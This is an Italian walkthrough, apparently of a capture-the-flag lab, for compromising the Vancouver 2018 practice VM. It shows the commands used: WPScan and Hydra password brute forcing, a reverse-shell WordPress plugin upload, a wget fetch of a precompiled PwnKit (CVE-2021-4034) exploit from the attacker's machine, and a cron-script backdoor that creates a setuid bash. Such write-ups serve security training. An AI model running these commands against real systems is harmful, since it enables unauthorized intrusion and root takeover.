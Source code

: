# 🛡️ **Vancouver 2018 Exploitation Report**

## 📋 **Descrizione Generale**
Questa relazione racconta le quattro giornate intense di lavoro spese per sfruttare ogni singolo punto debole della VM assegnata. Non è stato un processo lineare, e spesso mi sono trovato a pensare di essermi incastrato in un vicolo cieco, ma alla fine ogni tentativo, errore e intuizione ha portato alla tanto desiderata shell **root**.

Questa storia è una combinazione di ostinazione, pazienza e, soprattutto, l'arte di sfruttare le vulnerabilità in posti che inizialmente sembravano insignificanti.

---

## ⚙️ **Configurazione dell'Ambiente**
1. **Importazione e Avvio della VM**:
   - Ho iniziato importando la VM in **VirtualBox/VMware**. L'avvio sembrava andare liscio, ma la vera battaglia stava per cominciare.

2. **Identificazione IP**:
   - Con una scansione rapida di rete usando **Nmap**, ho trovato l'indirizzo della macchina:
     ```bash
     nmap -sn 192.168.1.0/24
     ```
   - L'indirizzo IP della macchina target è emerso chiaramente: `192.168.1.170`.

---

## 🔍 **Fase di Scansione e Accesso Iniziale**

### 1️⃣ **Scansione delle Porte e Servizi**
Partiamo dalla base. Ho eseguito una scansione con **Nmap**, che mi ha rivelato un paio di servizi attivi:
- **Porta 80 (HTTP)**: un classico, un servizio web era in agguato.
- **Porta 21 (FTP)**: qualcosa di interessante da esplorare più a fondo.

Era solo l'inizio, ma già sapevo che FTP avrebbe rivelato qualcosa.

---

### 2️⃣ **Accesso FTP e la Prima Sorpresa**
Con un accesso FTP anonimo (chi è che lascia FTP così?), ho trovato il file **`users.txt.bk`**. 
Non è stato nulla di speciale, solo una lista di nomi utente, ma qui la pazienza è la chiave. Ogni pezzetto di informazione conta.

---

### 3️⃣ **WordPress: L'Inizio del Divertimento**
Inizialmente, con **Gobuster** non ero riuscito a individuare nulla di interessante. Tuttavia, controllando il file **robots.txt**, ho trovato un riferimento nascosto alla directory **/backup_wordpress**. 

Una volta scoperta questa directory, ho iniziato a mettere le mani nel servizio WordPress.

Per enumerare gli utenti e testare combinazioni di password comuni, ho lanciato **WPScan** con il mio token (inserirò un comando più generico senza token):
   ```bash
   wpscan --url http://192.168.1.170/backup_wordpress --enumerate u --passwords rockyou.txt
   ```

Dopo lunghi minuti di attesa, ecco la combinazione perfetta:
- **Username**: `john`
- **Password**: `enigma`

Con queste credenziali, ho avuto accesso al pannello di WordPress. Qui ho caricato un **plugin malevolo** contenente una reverse shell. Finalmente, **www-data** era mio. Ma con un utente di basso livello, cosa potevo fare? Dannazione...

---

## 🔒 **Cracking dell'SSH Tramite Hydra**
La shell **www-data** sembrava un vicolo cieco.
Prima di arrendermi in realtà con tutto quanto dalla frustrazione, ho deciso di provare un attacco **Hydra** sul servizio SSH usando la lista di utenti recuperati con poche speranze, finché mi imbatto in anne, capendo che fosse l'unica accessibile con password in ssh.
Utilizzando un bel comando hydra ottimizzato per mandare molte richieste:

```bash
hydra -l anne -P /usr/share/wordlists/rockyou.txt -t 64 -V -W 1 ssh://192.168.1.170
```

**EUREKA**, finalmente trovo:
- **Password**: `princess`

Con queste credenziali, ho effettuato il login SSH:
   ```bash
   ssh anne@192.168.1.170
   ```

A questo punto, la sorpresa: `anne` aveva i privilegi di **sudo** abilitati. Con un semplice comando:
   ```bash
   sudo su
   ```
   
Avevo ottenuto l'accesso **root** senza dover fare altro. Ma, ironia della sorte, non ho voluto fare **assolutamente nulla** con questo accesso root. 
Ho chiuso l'accesso SSH e sono tornato alla mia reverse shell caricata tramite  WordPress dove ero user di basso privilegio.

---

# 🏆 **Escalation dei Privilegi Alternativa**

E' stato qui che ho deciso di intraprendere nuove strade **SENZA AUTENTICAZIONE** che mi permettessero di raggiungere l'obiettivo, informandomi dunque sulle vulnerabilità della macchina target decisi di affrontare **PwnKit**. Ho sbattuto la testa nel tentativo di **compilare l'exploit** direttamente sulla macchina target e anche da Kali con le dipendenze necessarie teoricamente corrette. Dopo svariati errori e tentativi falliti, ho abbandonato l'idea della compilazione e sono passato alla soluzione più pratica: usare l'exploit **precompilato**.

---

### 1️⃣ **Kernel Exploit - PwnKit (CVE-2021-4034)**
Avevo sentito parlare di **PwnKit**. Era il momento di metterlo alla prova. 
Dopo aver scaricato il precompilato 32 bit:

1. Ho avviato un server HTTP sulla mia macchina Kali:
   ```bash
   python3 -m http.server 8080
   ```
2. Ho scaricato l'exploit precompilato sul target:
   ```bash
   wget http://192.168.1.165:8080/PwnKit32 -O /tmp/PwnKit32
   chmod +x /tmp/PwnKit32
   ```
3. Ho eseguito l'exploit:
   ```bash
   ./PwnKit32
   ```
4. **Magia pura**. Una volta eseguito, avevo accesso **root**:
   ```bash
   whoami
   ```
   **Output**: `root`.

![ROOTWITHPWNKIT](./ROOTWITHPWNKIT.png)

---

### 2️⃣ **Cron Job Exploit: L'Ultimo Colpo**
Per non farmi mancare nulla, già di mio sospettavo di cron jobs vulnerabili, dunque in seguito a indagine mirata ho individuato un cron job che eseguiva lo script **`/usr/local/bin/cleanup`** come **root**, ma con permessi **world-writable**. 

Ho pensato: "Wow, è stato lì tutto questo cazzo di tempo" e "It was him, it was him since the beginning".

1. Ho modificato lo script per creare una **backdoor**:
   ```bash
   echo "cp /bin/bash /tmp/rootbash && chmod +s /tmp/rootbash" > /usr/local/bin/cleanup
   ```
2. Ho forzato l'esecuzione del cron job:
   ```bash
   /usr/local/bin/cleanup
   ```
3. Il risultato? Una shell **root** con **SetUID**:
   ```bash
   /tmp/rootbash -p
   ```

![CronJobs](./CronJobsSUCCESS.png)

---

## 🎯 **Conclusione**
Quattro giorni di lavoro, frustrazioni, caffè e ore perse a guardare uno schermo, ma alla fine è stato tutto ripagato.

### **Lezioni Imparate**:
- **Ogni piccolo dettaglio conta**. Un file FTP dimenticato può essere la chiave di tutto.
- **Non fermarsi ai primi ostacoli**. La shell **www-data** sembrava un vicolo cieco, ma invece ha aperto altre strade.
- **Mai sottovalutare i cron job**. Permessi sbagliati possono essere devastanti.
- **Verificare sempre i privilegi utente**. A volte la soluzione è più semplice di quanto sembri.
- **La pratica batte la teoria**. Saper aggirare problemi come compilazioni fallite è parte del gioco.


Questo lavoro è stato una vera battaglia contro la macchina, ma alla fine ho vinto e mi sono divertito un mondo!

![Success](./RootSuccess.png)

🎉 **Missione Completata con Successo!** 🚀

